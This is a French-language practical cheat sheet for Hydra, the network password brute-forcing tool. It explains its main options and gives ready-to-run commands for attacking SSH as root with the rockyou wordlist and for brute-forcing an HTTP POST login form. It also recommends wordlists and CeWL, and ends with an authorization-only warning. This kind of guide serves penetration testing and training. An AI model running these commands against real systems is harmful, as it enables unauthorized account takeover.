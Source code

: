 # 🌊 Hydra : Le Guide Pratique

Hydra est un outil de brute-force réseau extrêmement rapide et flexible. Il peut attaquer de nombreux services qui nécessitent une authentification.

## 🔥 Syntaxe et Commandes Essentielles

La syntaxe de base consiste à fournir une cible, un service, et des listes d'identifiants/mots de passe.

| Option | Description |
|---|---|
| `-l <USER>` | Spécifie un seul nom d'utilisateur. |
| `-L <FILE>` | Spécifie un fichier contenant une liste de noms d'utilisateur. |
| `-p <PASS>` | Spécifie un seul mot de passe. |
| `-P <FILE>` | Spécifie un fichier contenant une liste de mots de passe. |
| `-t <NUM>` | Nombre de threads (tâches parallèles). Une valeur de 16 ou 32 est un bon début. |
| `-f` | Arrête l'attaque dès qu'une combinaison valide est trouvée. |
| `-o <FILE>` | Sauvegarde les résultats dans un fichier. |

## 🎯 Exemples d'Attaques

### Brute-force d'un service SSH

```bash
# Tenter de se connecter en SSH avec l'utilisateur "root" et une liste de mots de passe
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh

# Utiliser une liste d'utilisateurs et de mots de passe
hydra -L users.txt -P passwords.txt 192.168.1.100 ssh -t 32 -f
```

### Brute-force d'un formulaire web (HTTP POST)

C'est l'une des commandes les plus puissantes mais aussi les plus complexes d'Hydra.

```bash
# Syntaxe : hydra -L <users> -P <passes> <IP> http-post-form "<URL>:<PARAMS>:F=<MSG_ERREUR>"
hydra -L users.txt -P pass.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Invalid"
```

- **`/login.php`** : La page qui traite le formulaire.
- **`user=^USER^&pass=^PASS^`** : Les paramètres du formulaire. `^USER^` et `^PASS^` sont les variables qu'Hydra remplacera.
- **`F=Invalid`** : Indique à Hydra que la tentative a échoué si le mot "Invalid" est trouvé dans la réponse de la page.

## 📚 Wordlists Recommandées

- **/usr/share/wordlists/rockyou.txt** : La liste de base, toujours un bon point de départ.
- **SecLists** : La collection la plus complète. Si vous l'avez, cherchez dans `/usr/share/seclists/`.
- **Cewl** : Un outil qui peut créer une wordlist personnalisée à partir d'un site web. Très efficace pour trouver des mots de passe liés à l'entreprise.
  ```bash
  cewl http://example.com -w custom_list.txt
  ```

---
> ⚠️ **USAGE ÉTHIQUE & LÉGAL** : Les attaques par force brute sont bruyantes et facilement détectables. N'utilisez Hydra que sur des systèmes pour lesquels vous avez une autorisation explicite.
